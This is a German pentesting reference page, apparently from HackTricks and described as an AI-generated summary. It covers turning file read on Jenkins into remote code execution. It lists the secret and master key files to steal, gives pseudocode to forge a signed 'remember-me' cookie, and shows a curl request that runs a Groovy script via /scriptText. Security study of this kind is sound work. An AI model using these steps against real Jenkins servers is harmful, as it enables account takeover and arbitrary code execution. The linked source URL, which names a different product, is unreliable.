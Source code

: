 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

In diesem Blogbeitrag ist es möglich, einen großartigen Weg zu finden, um eine Local File Inclusion-Sicherheitsanfälligkeit in Jenkins in RCE zu verwandeln: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dies ist eine von KI erstellte Zusammenfassung des Teils des Beitrags, in dem das Erstellen eines willkürlichen Cookies missbraucht wird, um RCE zu erhalten, indem eine lokale Datei gelesen wird, bis ich Zeit habe, eine eigene Zusammenfassung zu erstellen:

### Angriffsvoraussetzungen

- **Funktionsanforderung:** "Remember me" muss aktiviert sein (Standardeinstellung).
- **Zugriffslevel:** Angreifer benötigt Gesamt-/Leseberechtigungen.
- **Geheimer Zugriff:** Fähigkeit, sowohl binäre als auch textuelle Inhalte aus wichtigen Dateien zu lesen.

### Detaillierter Ausbeutungsprozess

#### Schritt 1: Datensammlung

**Benutzerinformationsabruf**

- Greifen Sie auf die Benutzerkonfiguration und Geheimnisse aus `$JENKINS_HOME/users/*.xml` für jeden Benutzer zu, um Folgendes zu sammeln:
- **Benutzername**
- **Benutzersamen**
- **Zeitstempel**
- **Passworthash**

**Geheimschlüsselextraktion**

- Extrahieren Sie kryptografische Schlüssel, die zum Signieren des Cookies verwendet werden:
- **Geheimschlüssel:** `$JENKINS_HOME/secret.key`
- **Master-Schlüssel:** `$JENKINS_HOME/secrets/master.key`
- **MAC-Schlüsseldatei:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Schritt 2: Cookie-Fälschung

**Token-Vorbereitung**

- **Berechnen Sie die Token-Ablaufzeit:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Fügt eine Stunde zur aktuellen Zeit hinzu
```

- **Daten für das Token verketten:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC-Schlüsselentschlüsselung**

- **Entschlüsseln Sie die MAC-Schlüsseldatei:**

```javascript
key = toAes128Key(masterKey)  // Konvertieren Sie den Master-Schlüssel in das AES128-Schlüssel-Format
decrypted = AES.decrypt(macFile, key)  // Entschlüsseln Sie die .mac-Datei
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signaturberechnung**

- **Berechnen Sie HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Berechnen Sie HMAC mit dem Token und dem MAC-Schlüssel
tokenSignature = bytesToHexString(mac) // Konvertieren Sie das MAC in einen hexadezimalen String
```

**Cookie-Codierung**

- **Generieren Sie das endgültige Cookie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64-codieren Sie die Cookie-Daten
```

#### Schritt 3: Codeausführung

**Sitzungsauthentifizierung**

- **Abrufen von CSRF- und Sitzungstoken:**
- Stellen Sie eine Anfrage an `/crumbIssuer/api/json`, um `Jenkins-Crumb` zu erhalten.
- Erfassen Sie `JSESSIONID` aus der Antwort, die zusammen mit dem Remember-Me-Cookie verwendet wird.

**Befehlsausführungsanfrage**

- **Senden Sie eine POST-Anfrage mit Groovy-Skript:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Das Groovy-Skript kann verwendet werden, um systemweite Befehle oder andere Operationen innerhalb der Jenkins-Umgebung auszuführen.

Der bereitgestellte Beispiel-curl-Befehl zeigt, wie man eine Anfrage an Jenkins mit den erforderlichen Headern und Cookies sendet, um willkürlichen Code sicher auszuführen.

{{#include ../../banners/hacktricks-training.md}}
